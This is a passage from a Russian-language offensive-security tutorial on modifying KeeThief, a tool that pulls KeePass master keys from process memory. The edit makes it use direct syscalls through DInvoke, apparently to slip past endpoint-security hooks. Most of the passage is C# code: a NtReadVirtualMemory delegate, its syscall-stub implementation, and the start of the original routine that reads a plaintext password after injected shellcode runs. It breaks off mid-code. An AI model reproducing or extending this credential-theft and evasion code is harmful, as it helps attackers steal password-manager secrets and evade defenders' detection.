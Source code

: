 Для порядка я создам отдельные классы [Delegates.cs](https://github.com/snovvcrash/KeeThief/blob/syscalls/KeeTheft/KeeTheft/Delegates.cs) и [Syscalls.cs](https://github.com/snovvcrash/KeeThief/blob/syscalls/KeeTheft/KeeTheft/Syscalls.cs), где будут находиться делегаты и реализации системных вызовов соответственно. Функцию `NtReadVirtualMemory` я локализовал уже известным нам методом, подсмотренным [в сорцах](https://doxygen.reactos.org/d9/dd7/dll_2win32_2kernel32_2client_2proc_8c.html#ad7212006d73b4cfc79ffdc134de12829) ReactOS.

```csharp
class Delegates
{
    // https://github.com/snovvcrash/KeeThief/blob/3a1415e247688bc581f4dd036a6709737b3b3848/KeeTheft/KeeTheft/Delegates.cs#L26-L32

    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    public delegate DI.Data.Native.NTSTATUS NtReadVirtualMemory(
        IntPtr ProcessHandle,
        IntPtr BaseAddress,
        IntPtr Buffer,
        uint NumberOfBytesToRead,
        ref uint NumberOfBytesReaded);
}

class Syscalls
{
    // https://github.com/snovvcrash/KeeThief/blob/3a1415e247688bc581f4dd036a6709737b3b3848/KeeTheft/KeeTheft/Syscalls.cs#L36-L47

    public static DI.Data.Native.NTSTATUS NtReadVirtualMemory(IntPtr ProcessHandle, IntPtr BaseAddress, IntPtr Buffer, uint NumberOfBytesToRead, ref uint NumberOfBytesReaded)
    {
        // получаем стаб (указатель на экспорт целевой функции) системного вызова и инициализируем им делегат
        IntPtr stub = DI.DynamicInvoke.Generic.GetSyscallStub("NtReadVirtualMemory");
        Delegates.NtReadVirtualMemory ntReadVirtualMemory = (Delegates.NtReadVirtualMemory)Marshal.GetDelegateForFunctionPointer(stub, typeof(Delegates.NtReadVirtualMemory));

        // обращаемся к делегату как к целевой функции и возвращаем результат
        return ntReadVirtualMemory(
            ProcessHandle,
            BaseAddress,
            Buffer,
            NumberOfBytesToRead,
            ref NumberOfBytesReaded);
    }
}
```

Теперь нам нужно внести изменения в логику главного класса [Program.cs](https://github.com/GhostPack/KeeThief/blob/master/KeeTheft/KeeTheft/Program.cs). Вот, что там было изначально.

```csharp
static class Program
{
    public static void ExtractKeyInfo(IUserKey key, IntPtr ProcessHandle, bool DecryptKeys)
    {
        // https://github.com/GhostPack/KeeThief/blob/04f3fbc0ba87dbcd9011ad40a1382169dc5afd59/KeeTheft/KeeTheft/Program.cs#L156-L165

        // Read plaintext password!

        // ждем, пока отработает шеллкод
        Thread.Sleep(1000);

        // объявляем переменную для количества прочитанных байт и статический массив для сохранения результата
```

[//]: # (2022-03-29)